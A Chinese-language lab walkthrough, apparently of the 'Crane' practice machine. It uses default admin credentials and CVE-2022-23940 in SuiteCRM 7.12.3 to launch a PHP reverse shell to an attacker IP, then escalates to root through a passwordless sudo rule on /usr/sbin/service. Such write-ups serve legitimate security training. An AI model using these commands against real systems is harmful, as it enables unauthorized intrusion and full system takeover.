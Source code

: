 ```yaml
---
description: Easy - Linux / SuiteCRM 7.12.3 / CVE-2022-23940 / NOPASSWD提权
---
```


# ✔️ Crane

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到4个端口：22 / 80 / 3306 / 33060

```bash
nmap -sC -sV -p- -oA crane 192.168.178.146 --open 
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，尝试弱口令成功：**admin : admin**

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

* 并查询到了当前正在运行的程序SuiteCRM的版本号：**v7.12.3**

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 查看/robots.txt文件，返现一个名为 **/ical\_server.php** 的php文件，将其下载到本地：

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前已知的程序及其版本号**SuiteCRM 7.12.3**，搜索到了公开的已知漏洞可以利用：**CVE-2022-23940**

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 下载该脚本，并执行：

```bash
python3 exploit.py -h http://192.168.178.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.240\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'" 

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 成功获取到shell：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举，发现 **/usr/sbin/service**程序不需要密码即可以root身份运行：

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该程序进行提权：

```bash
sudo /usr/sbin/service ../../../../../bin/bash
```

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>
